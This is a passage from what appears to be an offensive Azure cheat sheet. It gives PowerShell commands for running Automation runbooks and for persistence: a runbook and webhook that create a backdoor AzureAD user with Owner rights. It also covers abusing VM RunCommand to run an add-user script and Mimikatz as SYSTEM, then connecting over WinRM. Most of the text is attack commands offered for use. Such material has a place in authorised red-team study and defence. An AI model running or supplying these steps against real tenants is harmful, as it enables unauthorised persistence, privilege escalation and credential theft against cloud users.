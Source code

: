 ```powershell
Start-AzAutomationRunbook -RunbookName <RUNBOOK-NAME> -RunOn Workergroup1 -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME> -Verbose
```

### Persistence via Automation accounts

* Create a new Automation Account
    * "Create Azure Run As account": Yes
* Import a new runbook that creates an AzureAD user with Owner permissions for the subscription*
    * Sample runbook for this Blog located here – https://github.com/NetSPI/MicroBurst
    * Publish the runbook
    * Add a webhook to the runbook
* Add the AzureAD module to the Automation account
    * Update the Azure Automation Modules
* Assign "User Administrator" and "Subscription Owner" rights to the automation account
* Eventually lose your access…
* Trigger the webhook with a post request to create the new user
    ```powershell
    $uri = "https://s15events.azure-automation.net/webhooks?token=h6[REDACTED]%3d"
    $AccountInfo  = @(@{RequestBody=@{Username="BackdoorUsername";Password="BackdoorPassword"}})
    $body = ConvertTo-Json -InputObject $AccountInfo
    $response = Invoke-WebRequest -Method Post -Uri $uri -Body $body
    ```


## Virtual Machine RunCommand

Requirements: 
* `Microsoft.Compute/virtualMachines/runCommand/action`

```powershell
# Get Public IP of VM : query the network interface
PS AzureAD> Get-AzVM -Name <RESOURCE> -ResourceGroupName <RG-NAME> | select -ExpandProperty NetworkProfile
PS AzureAD> Get-AzNetworkInterface -Name <RESOURCE368>
PS AzureAD> Get-AzPublicIpAddress -Name <RESOURCEIP>

# Execute Powershell script on the VM
PS AzureAD> Invoke-AzVMRunCommand -VMName <RESOURCE> -ResourceGroupName <RG-NAME> -CommandId 'RunPowerShellScript' -ScriptPath 'C:\Tools\adduser.ps1' -Verbose

# Connect via WinRM
PS C:\Tools> $password = ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force
PS C:\Tools> $creds = New-Object System.Management.Automation.PSCredential('username', $Password)
PS C:\Tools> $sess = New-PSSession -ComputerName <IP> -Credential $creds -SessionOption (New-PSSessionOption -ProxyAccessType NoProxyServer)
PS C:\Tools> Enter-PSSession $sess
```

> Allow anyone with "Contributor" rights to run PowerShell scripts on any Azure VM in a subscription as NT Authority\System

```powershell
# List available VMs
PS C:\> Get-AzureRmVM -status | where {$_.PowerState -EQ "VM running"} | select ResourceGroupName,Name
ResourceGroupName    Name       
-----------------    ----       
TESTRESOURCES        Remote-Test

# Execute Powershell script on the VM
PS C:\> Invoke-AzureRmVMRunCommand -ResourceGroupName TESTRESOURCES -VMName Remote-Test -CommandId RunPowerShellScript -ScriptPath Mimikatz.ps1
```
